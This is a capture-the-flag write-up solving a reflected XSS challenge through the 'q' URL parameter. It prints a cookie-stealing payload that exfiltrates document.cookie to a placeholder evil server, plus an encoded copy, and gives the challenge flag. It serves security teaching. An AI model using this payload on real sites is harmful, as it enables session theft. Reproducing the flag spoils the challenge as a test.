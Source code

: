 ## Solution Steps
* Recognize that the vulnerable server has an input field, and inputs are then passed to the URL query parameter "q".
* Explore XSS vulnerabilities by trying to enter JS code in the input field and into the URL query parameter.
* Notice that only URI-encoded payloads can be executed by manipulating the URL query parameter. You can encode payloads using websites online or the DevTools JS Console with the encodeURIcomponent() function.
* Now to send the cookie to the evil server, we need to enter a payload similar to this: < img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://URL-OF-EVIL-SERVER/cookie?data=\' + document.cookie;">
* Encoded payload example using localhost: "%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement('img')%3B%20img.src%20%3D%20'http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D'%20%2B%20document.cookie%3B%22%3E"
* Remember to substitute the correct URL/IP address of the evil server, do not use localhost because your browser will use your actual local device
* Finally, navigate back to the evil server, which has been listening for the cookie to arrive, and refresh the page to see the flag.
* Flag: `jctf{who_said_you_could_open_the_cookie_jar!?}`